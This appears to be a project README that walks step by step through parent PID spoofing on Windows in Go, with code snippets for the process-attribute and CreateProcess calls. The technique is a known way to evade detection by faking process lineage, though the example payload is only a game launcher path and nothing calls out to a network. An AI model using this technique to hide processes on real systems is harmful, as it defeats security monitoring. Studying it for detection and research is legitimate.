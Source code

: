 # PPID Spoofing

- Parent PID spoofing using direct system calls

# Guide

1. Identify a target PID to become the 'parent' of the process we'll be creating. It must be the main thread PID associated with a process.
2. Choose a target payload

```go
payload := flag.String("payload", "C:\\Program Files (x86)\\Jagex Launcher\\JagexLauncher.exe", "Parent argument")
```

3. Open a `handle` to the process, note that `PROCESS_QUERY_INFORMATION` permissions is not sufficient. It worked with `PROCESS_ALL_ACCESS` though. 

```go
const PROCESS_ALL_ACCESS = windows.STANDARD_RIGHTS_REQUIRED | windows.SYNCHRONIZE | 0xFFFF
```

4. Call the `InitialiseProcThreadAttributeList` function with a `null` `lpAttributeList` parameter - this will populate the size of `lpSize` with the size required to hold the data structure. It's intended that this function be called twice, once to get the data structure, and again to populate it. You can ignore the error on the first call. 

```go
var lpSize uintptr = 0
InitializeProcThreadAttributeList(nil, 1, 0, &lpSize)
```

There was some suggestion that you might need to allocate a byte array based on the response of lpSize because Golang's struct might not be aligned like WIN32 API expects but it doesn't seem to make any different?

```go
// attribListBytes := make([]byte, lpSize)
// pThreadAttribList := (*PROC_THREAD_ATTRIBUTE_LIST)(unsafe.Pointer(&attribListBytes[0]))
```

5. Initialise a `PROC_THREAD_ATTRIBUTE_LIST` struct

```go
// type PROC_THREAD_ATTRIBUTE_LIST struct {
//     dwFlags  uint32
//     size     uint64
//     count    uint64
//     reserved uint64
//     unknown  *uint64
//     entries  []*PROC_THREAD_ATTRIBUTE_ENTRY
// }
var pThreadAttribList PROC_THREAD_ATTRIBUTE_LIST
```

6. Call the `InitialiseProcThreadAttributeList` func agian to popular the attrib list

```go
err = InitializeProcThreadAttributeList(&pThreadAttribList, 1, 0, &lpSize)
```

7. To populate the structure fully, we need to call `UpdateProcThreadAttribute`:

```go
var parentHandlePtr uintptr = uintptr(parentHandle)
var sizeOfParentHandlePtr uintptr = unsafe.Sizeof(&parentHandlePtr)

// Update individual parameters - in this case, the parent procese (PPID)
err = UpdateProcThreadAttribute(
    &pThreadAttribList,                   // Return value from InitializeProcThreadAttributeList
    0,                                    // Reserved
    PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, // Attribute - update parent process info
    &parentHandlePtr,                     // Pointer to attribute value (lpValue)
    sizeOfParentHandlePtr,                // Sizof(lpValue)
    0,                                    // Reserved
    nil,                                  // Reserved
)
```

The `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` field specifies that we're updating the PPID.

8. Pack it all into the `startupInfoEx` structure:

```go
var startupInfoEx StartupInfoEx
startupInfoEx.StartupInfo.Cb = uint32(unsafe.Sizeof(startupInfoEx))
startupInfoEx.AttributeList = &pThreadAttribList

// CreateProcessW
parentProcessPathPtr, err := syscall.UTF16PtrFromString(*payload)
```

9. Finally, create a new process passing it the newly packed struct:

```go
procInfo := windows.ProcessInformation{}

/* The EXTENDED_STARTUPINFO_PRESENT flag gives further control over the created
proces. It allows some information about the process to be modified such as the
PPID */
err = CreateProcess(
    nil,
    parentProcessPathPtr,
    nil,
    nil,
    false,
    windows.EXTENDED_STARTUPINFO_PRESENT,
    nil,
    nil,
    &startupInfoEx,
    &procInfo,
)
```
